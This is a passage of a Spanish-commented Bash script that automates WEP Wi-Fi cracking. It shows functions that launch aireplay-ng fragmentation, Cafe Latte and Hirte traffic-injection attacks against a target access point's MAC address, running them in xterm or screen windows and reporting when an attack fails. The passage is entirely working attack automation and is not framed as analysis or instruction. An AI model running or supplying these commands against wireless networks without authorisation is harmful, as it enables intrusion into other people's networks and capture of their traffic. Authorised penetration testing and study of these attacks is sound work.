 		$SCREEN -dm -t "Fragmentación_reinyectando" $AIREPLAY -2 -F -r ./$CAPTURA/ataque5.cap $INTERFAZ_MONITOR
		esperar_cierre "$AIREPLAY -2 -F -r ./$CAPTURA/ataque5"
	fi
fi
comprobar_airodump
if [ "$AIRODUMP_FUNCIONANDO" != "" ] #si falla el ataque espera a que se cierre airodump para cerrarse
then
	if [ "$INTERFAZ_GRAFICA" = "SI" ]
	then
		xterm $HOLD $MAL $FUENTE $ATAQUE5_VENTANA -title "ATAQUE -5 [Fragmentación] - ### FALLIDO ###" -e echo -e "\n\t### ATAQUE FALLIDO ### \c"
	fi
fi
}

#INYECCION DE TRÁFICO - ATAQUE 6 [Cafe Latte]
ataque_6()
{
if [ "$INTERFAZ_GRAFICA" = "SI" ]
then
	xterm $NORMAL $FUENTE $ATAQUE6_VENTANA -title "ATAQUE -6 [Cafe Latte]" -e $AIREPLAY -6 -F -D -b $MAC_AP -h $MAC_INTERFAZ $INTERFAZ_MONITOR
else
	$SCREEN -dm -t "Cafe_Latte" $AIREPLAY -6 -F -D -b $MAC_AP -h $MAC_INTERFAZ $INTERFAZ_MONITOR
	esperar_cierre "$AIREPLAY -6"
fi
comprobar_airodump
if [ "$AIRODUMP_FUNCIONANDO" != "" ] #si falla el ataque espera a que se cierre airodump para cerrarse
then
	if [ "$INTERFAZ_GRAFICA" = "SI" ]
	then
		xterm $HOLD $MAL $FUENTE $ATAQUE6_VENTANA -title "ATAQUE -6 [Cafe Latte] - ### FALLIDO ###" -e echo -e "\n\t### ATAQUE FALLIDO ### \c"
	fi
fi
}

#INYECCION DE TRÁFICO - ATAQUE 7 [Hirte Attack]
ataque_7()
{
if [ "$INTERFAZ_GRAFICA" = "SI" ]
then
	xterm $NORMAL $FUENTE $ATAQUE7_VENTANA -title "ATAQUE -7 [Hirte Attack]" -e $AIREPLAY -7 -F -D -b $MAC_AP -h $MAC_INTERFAZ $INTERFAZ_MONITOR
else
	$SCREEN -dm -t "Hirte_Attack" $AIREPLAY -7 -F -D -b $MAC_AP -h $MAC_INTERFAZ $INTERFAZ_MONITOR
	esperar_cierre "$AIREPLAY -7"
fi
comprobar_airodump
if [ "$AIRODUMP_FUNCIONANDO" != "" ] #SI FALLA EL ATAQUE, ESPERA A QUE SE CIERRE AIRODUMP PARA CERRARSE
then
	if [ "$INTERFAZ_GRAFICA" = "SI" ]
	then
		xterm $HOLD $MAL $FUENTE $ATAQUE7_VENTANA -title "ATAQUE -7 [Hirte Attack] - ### FALLIDO ###" -e echo -e "\n\t### ATAQUE FALLIDO ### \c"
	fi
fi
}
